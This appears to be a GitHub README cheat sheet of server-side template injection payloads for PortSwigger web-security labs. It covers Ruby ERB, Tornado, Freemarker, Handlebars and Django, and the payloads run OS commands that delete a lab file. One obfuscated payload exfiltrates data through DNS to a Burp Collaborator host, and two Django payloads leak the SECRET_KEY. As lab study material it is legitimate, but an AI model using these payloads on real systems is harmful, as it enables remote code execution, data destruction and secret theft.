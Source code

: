 # Server-Side Template Injection

## Summary

* [Recon for Server-Side Template Injection](#recon)

* [Portswigger Labs Cheat Sheet / Payloads](#cheat-sheet)

* Additional Note: There is a PDF attached in this folder that has a walk-through of the labs. The document does not need to be downloaded, it can be viewed inline in GitHub.

<br><br>

## Recon

* Detect and identify server-side template injection:

    * https://portswigger.net/web-security/server-side-template-injection#constructing-a-server-side-template-injection-attack
 
 * Some payloads to try:

   * {{7*7}}
   * ${7*7}
   * <%=7*7%>
   * ${7*test}
   * {{this}}{{self}}

   * ${{<%[%'"}}%\

<br><br>

## Cheat Sheet

<br><br>

PayloadAllTheThings:

* https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#filter-bypasses
  
* https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection

<br>

**For more Obfuscation related payloads check out the "Command Injection" folder of this cheatsheet.**

<br>

Obfuscation example (this can be helpful to bypass filtering):  

This will append the String "hello" to Burp Collaborator.  This can be changed to exfiltrate data.  

```
<%system("nslookup $(e`echo ch`o hello).yvxfjnpedf14.oastify.com")%>
```

<br><br>

### __Basic Server-side Template Injection__

* Ruby ERB Template Syntax

    * Payload:  <%=7*7%>

* If the payload was successful, then in the response we should see the value of 49.

* The following payload can be used to execute an OS command that deletes a file from the server:

    * Payload:

```
<%system("rm /home/carlos/morale.txt")%>
```

* Other payloads for enumeration:

    * {{7*7}}

    * ${7*7}

* Resources:

    * https://docs.ruby-lang.org/en/2.3.0/ERB.html

    * https://cheatsheetseries.owasp.org/cheatsheets/Ruby_on_Rails_Cheat_Sheet.html

<br><br>

### __Basic Server-side Template Injection (Code Context)__

* Tornado web Template Engine

* Try to trigger an error message in the application.  Sometimes the application will disclose the template that it is using.

* Some payloads to try:

    * {{7*7}}

    * ${7*7}

* The syntax needs to be valid for successfully execution of the payload:

    * Payload:  }}{{7*7

* This payload will return the value of 49.

* The following payload can be used to execute an OS command that deletes a file from the server:

    * Payload:

```
}}{%import+os%}{{os.system("rm+/home/carlos/morale.txt")
```

* Resources:

    * https://www.tornadoweb.org/en/stable/template.html

<br><br>

### __Server-side Template Injection Using Documentation__

* Freemarker Template Engine

* Trigger an overly verbose error message on the application, which discloses the template engine in use.

    * ${7*test}

* The following payload can be used to execute an OS command that deletes a file from the server:

    * Payload:  <#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("rm /home/carlos/morale.txt") }

* Resources:

    * https://freemarker.apache.org/docs/app_faq.html#faq_template_uploading_security

    * https://portswigger.net/research/server-side-template-injection


<br><br>

### __Server-side Template Injection with a Documented Exploit__

* Handlebars Template Engine 

* Resource:

    * http://mahmoudsec.blogspot.com/2019/04/handlebars-template-injection-and-rce.html

* Identification Payload:

    * {{this}}{{self}}

* Using the payload mentioned in the resource, swap out the following line of code:

    * return JSON.stringify(process.env);

* Then inject either of the following payloads in its place, then URL encode the entire payload String before submitting the payload back to the application:

    * return require('child_process').execSync('rm /home/carlos/morale.txt');

    * return require('child_process').exec('rm /home/carlos/morale.txt');


<br><br>

### __Server-side Template Injection with Information Disclosure via User-supplied Objects__

* Django Template Engine

* Payload to disclose debug information:

    * {% debug %}

* The “settings” Object can be used to retrieve sensitive information from the template engine configuration.

    * Payload:  {{settings.SECRET_KEY}}


<br><br>

### __Server-side template injection in a sandboxed environment__

* See lab/document information. - https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-in-a-sandboxed-environment

<br><br>

### __Server-side template injection with a custom exploit__

* See lab/document information. - https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-with-a-custom-exploit

<br><br>

### __Pending to complete labs that are missing from cheat sheet:__

* All labs in this category are completed and referenced in cheat sheet or attached document.
